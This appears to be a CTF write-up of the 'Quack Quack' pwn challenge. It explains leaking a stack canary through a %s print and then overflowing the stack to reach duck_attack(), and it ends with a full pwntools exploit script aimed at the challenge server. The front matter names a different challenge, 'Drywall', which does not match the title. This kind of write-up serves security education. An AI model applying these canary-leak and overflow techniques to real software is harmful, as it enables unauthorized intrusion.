 ```yaml
---
layout: post
title: "Quack Quack - from ApocalypseCTF"
date: 2025-03-23
categories: [PWN]
tags: [userland, pwn, binary-exploitation]
description: "Detailed writeup of the Drywall challenge from ApocalypseCTF 2025."
---
```



# Quack Quack - Pwn Challenge Writeup

**Challenge Name**: Quack Quack  
**Category**: Pwn  
*(Kept this writeup straightforward and on point)*

---

## Challenge Description

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm. Quack Quack, it’s time to face the Duck!

---

## Initial Recon

Binary starts with:

```
Quack the Duck!

>
```

It reads 102 bytes from you, checks if you included "Quack Quack ", and if not, exits with an error. If you pass the check, it uses `%s` to print something from your input.

Classic setup for a **stack canary leak + buffer overflow**. The goal? Defeat the duck and call the hidden `duck_attack()` function.

---

## Decompiled Function (Ghidra Output)

Here's the function `duckling()`:

```c
void duckling(void) {
  char *off;
  long in_FS_OFFSET;
  undefined8 local_88;
  undefined8 local_80;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_88 = 0; local_80 = 0; local_78 = 0; local_70 = 0;
  local_68 = 0; local_60 = 0; local_58 = 0; local_50 = 0;
  local_48 = 0; local_40 = 0; local_38 = 0; local_30 = 0;
  local_28 = 0; local_20 = 0;

  printf("Quack the Duck!\n\n> ");
  fflush(stdout);
  read(0, &local_88, 102);
  off = strstr((char *)&local_88, "Quack Quack ");
  if (off == NULL) {
    error("Where are your Quack Manners?!\n");
    exit(0x520);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", off + 32);
  read(0, &local_68, 106);
  puts("Did you really expect to win a fight against a Duck?!\n");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

### Key Points:
- Reads 102 bytes into `local_88` (which is stack memory).
- Checks for "Quack Quack " with `strstr()`.
- Then prints from `off + 32` with `%s`.
- `%s` stops at NULL, meaning **stack canary leak is tricky**.
- Ends with a standard stack canary check.

Discovered win function: `duck_attack()` at `0x40137f`. That's the target for RIP.

---

## Exploit Strategy

### Canary Leak Problems

- The canary ends with a **NULL byte**, so `%s` cuts off before printing the full 8 bytes.
- Theory says 88 bytes of padding should align us before the canary.
- Reality: `%s` refuses to leak it properly with `A*88`.

### The Fix

- Send `A*89 + "Quack Quack "`.
- This tricks `%s` into starting exactly at the canary, leaking 8 bytes.
- Due to the NULL byte, we only get **7 useful bytes** and 1 garbage byte that is most significat byte .

### Adjust the Leak

- Strip off the **MSB (garbage byte)**.
- Append a NULL byte to reconstruct the correct canary.
- Now we have a valid canary to use in the overflow.

---

## Payloads and Explanation (disclaimer: i suck at coding XD)

### Payload 1 (Leak Canary)

```python
padding = b'A' * 89
quack_str = b"Quack Quack "
filler = b'B' * (102 - len(padding) - len(quack_str))

payload = padding + quack_str + filler
```

- Send this payload first.
- It gets us a leak of 8 bytes.

Fix the canary:

```python
leak = p.recv(8)
canary = u64(leak)
canary_fixed = (canary & 0x00FFFFFFFFFFFFFF) << 8
```

---

### Payload 2 (Overflow)

```python
payload2 = b"B"*88 + p64(canary_fixed) + p64(0x0) + p64(0x40137f)
```

- 88 bytes padding
- Valid canary
- Fake RBP
- Jump to `duck_attack()`

---

## My Garbage Exploit Script (Skill Issue hehe)

Okay, here’s my terrible script. It's functional but ugly — because I'm a bad programmer kek:

```python
from pwn import *

p = remote('94.237.60.63', 51435)

padding = b'A' * 89
quack_str = b"Quack Quack "
filler = b'B' * (102 - len(padding) - len(quack_str))

payload = padding + quack_str + filler

p.recvuntil(b'> ')
p.send(payload)

p.recvuntil(b'Quack Quack ')
leak = p.recv(8)
log.success(f"Leaked data: {leak}")
canary = u64(leak)
log.success(f"Canary: {hex(canary)}")

canary_adjusted = (canary & 0x00FFFFFFFFFFFFFF) << 8
log.success(f"Adjusted Canary: {hex(canary_adjusted)}")

p.recvuntil(b'> ')
payload2 = b"B"*88 + p64(canary_adjusted) + p64(0x0) + p64(0x40137f)
p.sendline(payload2)

p.interactive()
```

---

## Final Thoughts

Leaking the canary was a bit cursed due to `%s` and NULL-byte interactions, but once that hurdle was cleared, everything fell into place.

Solid pwn challenge. Now, hand over that PlayStation. Quack Quack. 🦆

